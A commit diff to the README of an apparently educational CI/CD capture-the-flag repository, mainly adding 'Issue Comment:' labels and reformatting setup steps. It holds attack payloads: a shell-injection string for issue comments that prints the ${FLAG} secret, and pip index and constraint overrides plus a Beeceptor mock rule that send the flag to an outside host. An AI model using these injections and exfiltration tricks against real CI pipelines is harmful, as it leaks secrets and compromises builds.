

Before and after one commit to Nebouh/tdf-ctf-cicd, a Markdown page: README.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -31,6 +31,7 @@
 
 # Chall 1
 
+Issue Comment:
 ``` bash
 Hello, there!'; echo "Here is your flag: ${FLAG}" | base64 ;echo 'General Kenobi
 ```
@@ -90,6 +91,7 @@ for key, value in env_vars.items():
 python setup.py bdist bdist_wheel
 ```
 
+Issue Comment:
 ``` sh
 Not a release :(
 PIP_INDEX_URL=https://cloudsmith.io/~nebco/packages/#
@@ -111,11 +113,14 @@ PIP_INDEX_URL=https://cloudsmith.io/~nebco/packages/#
 > - [Beeceptor](https://beeceptor.com/)
 > - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)
 
-Configure Beeceptor :
-- Add new "Mocking Rules"
-- Match value: "/<file_name>.txt"
-- Response body: "pyyaml@https://tdf123456.free.beeceptor.com/${FLAG}%"
+1. Go to BeeCeptor.com
+2. add new `Mocking Rules`
+``` md
+Match value: /<file_name>.txt
+Response body: pyyaml@https://tdf123456.free.beeceptor.com/${FLAG}%
+```
 
+Issue Comment:
 ``` bash
 Not a release :(
 PIP_CONSTRAINT=https://tdf123456.free.beeceptor.com/get-flag
````
Also changed, not shown: other parts of README.md (+2 -1 lines).
